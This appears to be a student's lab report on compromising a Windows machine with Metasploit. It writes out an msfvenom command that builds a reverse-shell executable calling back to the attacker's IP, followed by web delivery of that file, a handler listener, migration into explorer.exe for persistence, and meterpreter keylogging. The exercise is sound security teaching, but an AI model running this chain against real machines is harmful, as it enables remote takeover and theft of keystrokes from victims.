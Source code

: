 Compromising windows using Metasploit
## Name: Yathin Reddy T
## Reg no: 212223100062
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![Screenshot 2025-04-26 135930](https://github.com/user-attachments/assets/accb0a09-7625-4dd1-9ac7-ca037571afa0)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![Screenshot 2025-04-26 135937](https://github.com/user-attachments/assets/d9500ab9-96f2-40ff-9622-f52d1661717d)

copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![Screenshot 2025-04-26 135942](https://github.com/user-attachments/assets/97478a95-cac6-4d8d-8ec3-3867f0900649)

Invoke msfconsole:
## OUTPUT:
![Screenshot 2025-04-26 135948](https://github.com/user-attachments/assets/2223f988-715f-4649-8b62-4952627c86c6)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![Screenshot 2025-04-26 135953](https://github.com/user-attachments/assets/1643868a-8fd6-4108-82b9-b61f38537b39)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![Screenshot 2025-04-26 135958](https://github.com/user-attachments/assets/937b4753-47c8-4dee-9eee-82ae27b5f293)

WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![Screenshot 2025-04-26 140006](https://github.com/user-attachments/assets/39627339-4c99-407c-a6c3-486ff86d1b68)

## DOWNLOAD OUTPUT:
![Screenshot 2025-04-26 140014](https://github.com/user-attachments/assets/0fd9a769-fbb0-4ec1-87e6-fb675d07d1a9)

## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![Screenshot 2025-04-26 140020](https://github.com/user-attachments/assets/73612420-0e36-4cab-946a-0e88a7717ce2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![Screenshot 2025-04-26 140027](https://github.com/user-attachments/assets/c3f471c1-1ba0-41f1-a5ce-dc161220feb4)

## WINDOWS OUTPUT :
![image](https://github.com/user-attachments/assets/9bb4652b-edf8-4cf8-bfab-334082d10fd8)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
